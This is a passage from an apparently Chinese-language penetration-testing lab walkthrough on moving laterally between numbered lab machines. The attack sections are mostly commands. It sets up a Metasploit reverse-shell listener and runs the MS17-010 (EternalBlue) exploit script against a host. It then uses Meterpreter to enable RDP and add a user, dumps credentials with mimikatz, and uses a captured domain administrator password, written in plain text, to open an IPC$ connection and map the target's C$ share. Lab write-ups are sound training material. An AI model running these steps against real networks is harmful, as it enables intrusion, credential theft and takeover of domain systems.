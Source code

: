 ```
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 6666
exploit
```

在5号机中cmd中```C:\Users\Waldo\MS17-010-master```

在5号机上，运行ms170101攻击脚本(脚本要自己下载)

```
python zzz_exploit.py 192.168.141.114
```

![](https://upload-images.jianshu.io/upload_images/7216746-d6aab1708ad3b226.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/7216746-9fb6bed11323cfc2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


在kali里接收到了shell，可在meterpreter中管理shell，开启3389
```
run post/windows/manage/enable_rdp
```

添加用户
```
run post/windows/manage/enable_rdp username="Waldo1111test" password="123456hhhh."
```

在5号机远程登录4号机
![](https://upload-images.jianshu.io/upload_images/7216746-034a5d11784abeb2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 4号机到3号机
在4号机中抓取hash
```
privilege::debug
sekurlsa::logonpasswords
```

抓到域控管理员账号和密码:

![](https://upload-images.jianshu.io/upload_images/7216746-f6673d3c8583c11f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在4号机上，使用以下命令建立IPC$连接

```
net use \\192.168.141.100 "hb123456,./$" /user:"Administrator"
```

![](https://upload-images.jianshu.io/upload_images/7216746-86ef926cdf0fdbef.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在4号机上，使用以下命令，将目标靶机的C盘映射到本地Z盘
```
net use z: \\192.168.141.100\c$
```
![](https://upload-images.jianshu.io/upload_images/7216746-6a5dc8f61e967a6d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
